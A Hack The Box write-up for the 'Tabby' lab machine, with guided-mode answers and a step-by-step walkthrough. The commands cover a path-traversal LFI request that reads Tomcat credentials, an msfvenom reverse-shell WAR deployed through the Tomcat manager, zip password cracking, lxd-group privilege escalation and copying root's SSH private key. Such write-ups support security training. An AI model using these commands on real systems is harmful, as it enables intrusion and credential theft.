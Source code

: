 # Hack The Box

## Tabby (Guided Mode)

### Guided mode

Q. How many TCP ports are open on the remote host?
```A. 3```
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/6c76be3c-5b07-4dbb-885d-8259e0fc7d8e)

Q. What application is running on TCP 8080? (One word)
```A. Tomcat```

Q. Which link leads to the page containing the statement on recovering from the data breach?
```A. http://megahosting.htb/news.php?file=statement```
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/430bfdda-cfcd-401d-a342-ab1f48460e0f)

Q. Which URL parameter of the ```news.php``` page is vulnerable to Local File Inclusion?
```A. file```

Q. Which system user has user id 1000 on Tabby?
```A. ash```

Q. What is the full path of Apache Tomcat's configuration file which contains a list of user names, roles, and passwords.
```A. /usr/share/tomcat9/etc/tomcat-users.xml```

Q. What is the password of the Apache Tomcat user ```tomcat```?
```A. $3cureP4s5w0rd123!```
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/0cab503c-521e-4941-ae80-7b37ed41993b)

Q. What is the path on the webserver that leads to the text interface of the Host Manager app of Apache Tomcat?
```A. /manager/text```
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/15e79cf5-97a5-4fdf-a332-89d301660b0a)

Q. Which command is used in the text interface of the Host Manager app of Apache Tomcat to deploy a new application archive (WAR) remotely?
```A. deploy```
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/44556790-5b5a-4656-ab98-9547c08e3b89)

Q. What is the password for the file 16162020_backup.zip?
```A. admin@it```
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/2633972e-d5ee-46f7-98d6-8773eb99d579)

Q. Which interesting user group is the user ash a member of?
```A. lxd```
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/abb5c59d-cab3-429d-84b5-5223bde8a55b)

> https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation

Q. What is the command for listing the VM images present in lxd?
```A. lxc image list```
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/fc1e833b-2e51-4e0e-bbc9-24f8e0be91c3)

Q. Which flag needs to be set as true in the lxc init command in order to force the container to interact as root with the host filesystem?
```A. security.privileged```
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/e57aa73e-45e2-4dcc-9fb2-a675aca0f6dd)

### Step by step guide

1. We start with an nmap scan and discover http server running on port 80 and tomcat running on port 8080
2. Checking the website we discover a LFI vulnerability on news.php?file=**statement**
3. We can exploit this LFI vulnerability to read the tomcat configuration - ```http://megahosting.htb/news.php?file=../../../../../usr/share/tomcat9/etc/tomcat-users.xml```
4. The above url returns a blank webpage, but if we check source, we can see the xml file with the tomcat manager password
5. We can now go to megahosting.htb:8080/manager/ and login using the password found in the ```tomcat-users.xml``` file
6. The tomcat manager can use curl to interact with the tomcat interface
7. We run wfuzz or ffuf on /manager/FUZZ and check what options we have and we get ```text``` which can be exploited to get command execution
8. Now when we run ```curl -u tomcat:'$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/list``` to check if the command works and we get the list
9. We generate a payload using ```msfvenom -p java/shell_reverse_tcp lhost=x.x.x.x lport=xxxx -f war -o webshell.war```
10. We can now upload the payload and get code execution ```curl -u tomcat:'$3cureP4s5w0rd123!' -T webshell.war http://10.10.10.194:8080/manager/text/deploy?path=/webshell&update=true```
11. We are logged on as tomcat and we need to get to user ash
12. We found a zip file under /var/www/html/files/, we transfer the file to our local machine, but the file is password protected
13. Try to crack the password using fcrackzip - ```fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt backup.zip```
14. Now that we have the password we use ```su ash``` and enter the password, we are now user and can read ```/home/ash/user.txt```
15. Privilege escalation tip no 1, run the following commands before running any automated scipts like Linpeas - ```id, uname -a, lsb_release, sudo -l```
16. We find that user ash is a part of the lxd group, which is a tool used for running containers and virtual machines.
17. We can use the Method 2 in - ```https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation```
18. After followin the steps and running the final command - ```lxc exec mycontainer /bin/sh```
19. We are now root. We can goto ```/mnt/root/root/.ssh/``` and copy the private key on our machine and save it as root.key
20. We do ```chmod 600 root.key``` and ```ssh -i root.key root@megahosting.htb``` and **PWNED**.
